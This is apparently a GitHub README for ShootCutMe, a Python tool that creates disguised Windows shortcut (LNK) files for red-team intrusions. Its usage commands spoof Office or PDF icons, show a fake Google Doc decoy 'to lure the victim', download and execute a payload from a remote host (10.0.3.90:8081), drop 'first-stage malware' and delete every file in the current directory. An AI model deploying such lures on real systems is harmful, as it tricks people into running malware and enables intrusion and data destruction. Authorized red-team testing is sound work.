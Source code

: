 # ShootCutMe:

LNK files are used on the most modern and advanced APT attacks.

LNK files are windows shortcut files. Using a shortcut file you can launch your own commands.

I am happy to introduce ShootCutMe a script to create LNK files.

Options Available For Version 0.1:

- Fake pdf (Will open a fake Google doc on the browser in kiosk mode to lure the victim and remove suspicions)

- You can choose between different icons (word, Adobe, Excel, PowerPoint, Edge...)

- You can choose what you want to accomplish with the LNK file: download an executable, download and load an executable, execute an executable)
  Using the LNK file you can drop your first-stage malware and complete your red teaming engagement successfully.

## Install:

```cmd
python -m venv lnkenv
lnkenv\Scripts\activate.bat
python -m pip install -r requirements.txt
```

## Examples:

### Download File:

```cmd
python shootcutme.py --icon excel --name test1 -d http://10.0.3.90:8081/file.txt fileNameAfterDownload.txt D:\LNKtest
```

### Launch Executable:

```cmd
python shootcutme.py --icon word --name test2 -ex exeToLaunch.exe
```

### Fake PDF

```cmd
python shootcutme.py --icon edge --name <shotcutFileName> -fp <googleDocUrl> <executableToLaunch>
```

### Download And Execute:

```cmd
python shootcutme.py --icon pdf --name <shortCutFileName> -dl http://10.0.3.90:8081/example.exe exampleTest.exe D:\LNKtest
```

### Delete all files on the current directory:

```cmd
python shootCutMe.py -n test1.pdf --icon pdf --delete
```
